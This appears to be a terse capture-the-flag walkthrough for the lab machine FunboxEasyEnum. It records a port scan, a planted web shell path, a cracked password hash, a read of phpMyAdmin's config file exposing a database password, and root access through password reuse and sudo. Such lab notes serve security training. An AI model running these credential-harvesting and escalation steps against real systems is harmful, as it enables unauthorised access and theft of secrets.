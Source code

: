 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# FunboxEasyEnum
# 11/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

http://192.168.158.132/mini.php
http://192.168.158.132/phpmyadmin/index.php
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
hiphop           (oracle)     
cd /etc/phpmyadmin
cat config-db.php
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

Password is reused for user karla!
karla:tgbzhnujm!
su karla
sudo bash
